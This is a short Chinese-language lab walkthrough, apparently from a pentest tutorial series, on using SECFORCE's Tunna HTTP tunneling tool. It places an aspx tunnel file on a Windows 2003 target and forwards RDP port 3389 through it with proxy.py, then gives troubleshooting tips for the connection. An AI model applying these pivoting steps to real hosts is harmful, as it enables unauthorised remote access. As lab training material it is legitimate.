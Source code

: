 

**Tunna简介：**

Tunna1.1 是 secforce 在2014年11月出品的一款基于HTTP隧道工具。其中v1.1中支持了SOCKS4a。

Tunna演示稿：  
https://drive.google.com/open?id=1PpB8_ks93isCaQMEUFf_cNvbDsBcsWzE

Github：  
https://github.com/SECFORCE/Tunna

**攻击机：**   
192.168.1.5 Debian  
192.168.1.4 Windows 7

**靶机：**   
192.168.1.119 Windows 2003

**安装：**
```bash
root@John:~# git clone https://github.com/SECFORCE/Tunna.git
Cloning into 'Tunna'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 156 (delta 0), reused 2 (delta 0), pack‐reused 150
Receiving objects: 100% (156/156), 8.93 MiB | 25.00 KiB/s, done.
Resolving deltas: 100% (84/84), done.
```
![](media/dac94b993935a569d6b5cec53e91eb54.jpg)

**靶机执行：**

以aspx为demo。  

![](media/45105406fce5e573635d20030393a928.jpg)

**攻击机执行：**  

```python
python proxy.py ‐u http://192.168.1.119/conn.aspx ‐l 1234 ‐r 3389 ‐s ‐ v
```
![](media/270e3220479652ae6eb658f40156cf97.jpg)

![](media/5e8e8a0ea358fdf98fc37bbb31b5994e.jpg)


### 附录：

**解决：**General Exception: [Errno 104] Connection reset by peer
```bash
[+] Spawning keep‐alive thread
[‐] Keep‐alive thread not required
[+] Checking for proxy: False
```

连接后，出现
```bash
General Exception: [Errno 104] Connection reset by peer
```

等待出现：**无法验证此远程计算机的身份，是否仍要连接？**

再次运行，在点击是(Y)
```bash
python proxy.py ‐u http://192.168.1.119/conn.aspx ‐l 1234 ‐r 3389 ‐s ‐ v
```
![](media/086a4ba0d1640a1d5b5efb747490329d.jpg)

![](media/1a7fb8afe7862e95f22ce331e1ea6480.jpg)

![](media/89343acc07c18c27399943cd200091b6.jpg)


**如果：没有出现“无法验证此远程计算机的身份，是否仍要连接？”**

注册表键值：
HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers
删除对应IP键值即可。

非常遗憾的是，Tunna对PHP的支持并不是太友好。

>   Micropoor
